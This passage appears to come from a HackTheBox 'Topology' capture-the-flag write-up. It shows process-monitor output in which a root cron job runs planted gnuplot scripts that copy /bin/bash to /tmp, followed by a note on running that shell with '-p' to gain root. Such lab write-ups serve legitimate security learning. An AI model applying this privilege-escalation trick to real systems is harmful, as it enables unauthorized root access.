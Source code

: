 ```
2023/11/04 18:42:01 CMD: UID=0     PID=100004 | grep -o load average:.*$ 
2023/11/04 18:42:01 CMD: UID=0     PID=100003 | uptime 
2023/11/04 18:42:01 CMD: UID=0     PID=100007 | /bin/sh /opt/gnuplot/getdata.sh 
2023/11/04 18:42:01 CMD: UID=0     PID=100008 | 
2023/11/04 18:42:01 CMD: UID=0     PID=100010 | gnuplot /opt/gnuplot/0xRyuzak1.plt 
2023/11/04 18:42:01 CMD: UID=0     PID=100012 | cp /bin/bash /tmp/0xRyuzak1 
2023/11/04 18:42:01 CMD: UID=0     PID=100011 | sh -c cp /bin/bash /tmp/0xRyuzak1 
2023/11/04 18:42:01 CMD: UID=0     PID=100015 | find /opt/gnuplot -name *.plt -exec gnuplot {} ; 

```

Running the shell with `-p` to not drop down the privs, and get a shell as root user:


![](/assets/img/hackthebox/machines writeups/Topology/root.png)










